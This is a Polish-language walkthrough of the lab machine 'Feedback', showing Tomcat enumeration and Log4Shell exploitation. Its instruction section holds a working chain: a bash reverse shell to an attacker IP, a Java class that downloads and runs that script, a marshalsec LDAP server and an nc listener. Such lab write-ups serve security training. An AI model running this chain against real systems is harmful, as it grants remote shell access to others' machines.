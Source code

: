 # Feedback
Linux,Easy, created by **xct**
![feedback_slide](https://github.com/user-attachments/assets/c7f34a5d-01b3-43cb-b7ad-db1a8ee62b82)

```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.56
```
```
ffuf -w ~/raft.txt  -u http://10.10.103.197:8080/FUZZ -c -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36' -mc all -fw 68,66

RELEASE-NOTES.txt       [Status: 200, Size: 6898, Words: 862, Lines: 175, Duration: 41ms]
docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 68ms]
favicon.ico             [Status: 200, Size: 21630, Words: 19, Lines: 22, Duration: 35ms]
feedback                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 33ms]
index.jsp               [Status: 200, Size: 11136, Words: 4198, Lines: 199, Duration: 60ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
```

Jak maszynka nazywa się `Feedback` i mamy katalog `feedback` to tam idę xd

![{E26EDA92-67DA-4483-95DD-8CAADE33A353}](https://github.com/user-attachments/assets/39262a51-0055-4ec4-ac66-ec82c9974d83)

![{C5D0A5A1-CCEB-4596-BC09-453794CF5593}](https://github.com/user-attachments/assets/78059483-8324-4bae-8be5-f57ba132d024)

Przy okazji 2021 rok wydania to trochę mi śmierdzi i czuję, że wiem jaka tam siedzi podatność
![{DCA91D6A-F144-49A2-ACAA-8F4A0A3082CA}](https://github.com/user-attachments/assets/f22f5b76-e24c-4950-bb43-1dba1de48f6f)

![{FFA53A71-3A52-4FCB-8648-80BE324A501B}](https://github.com/user-attachments/assets/e952a117-e2cb-40fd-bd1e-e1a4141388a7)

Bingo
- teraz przygotować exploit, a wiem, że w 2024 są z tym lekkie problemy.. (ja spróbuję z tym https://github.com/cybereason/Logout4Shell.git)

![{7D472CEE-78C0-4F4B-8A72-FEC16E3F9E22}](https://github.com/user-attachments/assets/5b0ef247-be6f-471d-b5df-10f0b9265e2f)

zaczyna się...

kolejna próba [https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

![{18F81C88-8232-44B6-9B55-99DBFD8FCCEA}](https://github.com/user-attachments/assets/6229c2c0-baf4-4d9f-8559-50f0b5d8e426)

trzeba znaleźć staszą javę

![{49292569-82B7-4BBF-8C25-E2039685826E}](https://github.com/user-attachments/assets/1f3b2aec-99ce-49f8-b6bb-820ec8bddff6)

![{302ECB26-A8B8-4FE0-85E0-F53A2792C70E}](https://github.com/user-attachments/assets/494c4c26-cf8b-42ca-a42a-6f88b4636a80)

![{2FE8DED2-A475-4169-A53A-5B351909E96F}](https://github.com/user-attachments/assets/b56599a9-64b8-40dc-a1d9-bf4982b2fc10)

`library initialization failed - unable to allocate file descriptor table - out of memory`??????????

![{419698F3-6A22-43DD-A477-79C466314260}](https://github.com/user-attachments/assets/a38b0407-488f-4308-b577-36ab7af4ed8e)

powoli do przodu...

![{D495A742-ADF3-4C65-897C-3CDE7F75B3FB}](https://github.com/user-attachments/assets/25ff772f-fa79-48e6-ae2e-c655f9e0055f)

Dobra co ja tutaj przeszełem to nie mam pytań. Ostatni hard kosztował mnie mniej wysiłku.

![{204D1839-B065-4B0D-AF8E-80C640D6C2B2}](https://github.com/user-attachments/assets/70e2a69d-4657-47f0-acb3-85be91a7d1f6)

### INSTRUKCJA

najpierw pliczek `a`
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.8.4.124/443 0>&1'
```

teraz pliczek Exploit.java
```
public class Exploit {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("wget http://10.8.4.124/a -O /tmp/a");
            p.waitFor();
            r = Runtime.getRuntime();
            p = r.exec("/bin/bash /tmp/a");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public Exploit(){
        System.out.println("Pleeeeeease");
    }
}
```

teraz musimy mieć `jdk1.8.0_20/bin/javac` z oficjalnej strony javy.

kompilujmy
```
/home/kali/SHARED/vulnlab/Feedback/log4j-shell-poc/jdk1.8.0_20/bin/javac Exploit.java -source 8 -target 8
```

dwa serwery pythona sobie stawiamy
```
python3 -m http.server 8000
python3 -m http.server 80
```

odpalamy
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.4.124:8000/#Exploit"
```

ustawiamy listener
```
nc -lvnp 443
```
i na końcu wchodzimy na stronę

![{7E159FF4-D89C-4BF6-B124-C4C2B51EEE5D}](https://github.com/user-attachments/assets/ffac08b7-1f16-459a-a28b-d16add28c0fa)

Jakieś credsy dali

![{7939E0C3-8D40-4874-A5A9-842E54CD6D15}](https://github.com/user-attachments/assets/4346e438-65b2-4c1a-a101-63a78149fdb9)

![{2B666E8A-CAD8-468B-A445-9C6CD68F44D3}](https://github.com/user-attachments/assets/cb9b7396-367c-4f47-9f5f-253fe1e1ab66)

Hasło działa na roota.

FINISH
